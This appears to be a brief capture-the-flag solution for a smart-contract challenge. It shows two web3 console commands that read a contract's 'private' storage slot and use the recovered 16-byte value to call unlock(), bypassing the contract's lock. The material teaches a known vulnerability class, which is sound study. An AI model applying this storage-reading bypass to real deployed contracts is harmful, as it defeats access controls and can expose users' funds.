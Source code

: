 Get storage at the right position
```javascript
await web3.eth.getStorageAt(contract.address, 5)
```

use the left-most 16 bytes to call unlock()
```javacript
await contract.unlock("0x61cc9eb7d5bf353a40ae47061291ca0f")
```
